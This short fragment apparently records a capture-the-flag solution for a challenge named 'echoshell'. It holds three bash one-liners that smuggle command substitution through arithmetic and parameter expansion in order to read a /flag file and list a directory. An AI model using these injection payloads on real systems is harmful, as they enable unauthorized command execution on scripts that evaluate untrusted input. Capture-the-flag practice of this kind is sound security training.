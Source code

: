 ### echoshell

---

```py
payload='arr[$(cat /flag > /proc/1/fd/1)]'; echo $((payload));
echo "${arr[0]=$(cat /flag)}"
a=b; echo "${a/b/$(ls)}"
```
